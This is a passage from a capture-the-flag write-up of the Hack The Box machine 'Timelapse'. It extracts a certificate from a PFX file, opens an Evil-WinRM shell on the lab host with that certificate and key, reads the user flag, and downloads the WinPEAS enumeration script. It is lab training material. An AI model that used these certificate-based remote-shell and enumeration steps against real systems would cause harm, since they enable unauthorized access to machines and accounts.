 ```sh
┌──(root💀kali)-[~/htb/timelapse]
└─# openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out pfx.crt
Enter Import Password:
```

## Evil-WinRM As User Legacyy

Now we have all the files needed to connect using Evil-WinRM:

```sh
┌──(root💀kali)-[~/htb/timelapse]
└─# evil-winrm -i 10.10.11.152 -c ./pfx.crt -k ./priv.key -p -u -S 
Evil-WinRM shell v3.3
Warning: SSL enabled
Info: Establishing connection to remote endpoint
Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\Documents>
```

## User Flag

Using the PEM password 1234 we set before and we're now connected. I got the user flag first:

```text
*Evil-WinRM* PS C:\Users\legacyy\Documents> type ..\desktop\user.txt
e9fd75b313ffaa4e72f06e32dffc6f96
```

## WinPEAS

Then I used [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) to look for interesting things:

```sh
┌──(root💀kali)-[~/htb/timelapse]
└─# wget https://github.com/carlospolop/PEASS-ng/releases/download/20220410/winPEAS.bat
--2022-04-10 15:27:11--  https://github.com/carlospolop/PEASS-ng/releases/download/20220410/winPEAS.bat
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/104e6ae6-428a-468d-bf80-431282a92108
--2022-04-10 15:27:11--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/104e6ae6-428a-468d
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.108.133, 185.199.110.133, 185.199.111.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 35766 (35K) [application/octet-stream]
Saving to: ‘winPEAS.bat’
winPEAS.bat               100%[====================================================================>]  34.93K  --.-KB/s    in 0.009s  
2022-04-10 15:27:11 (3.65 MB/s) - ‘winPEAS.bat’ saved [35766/35766]
```
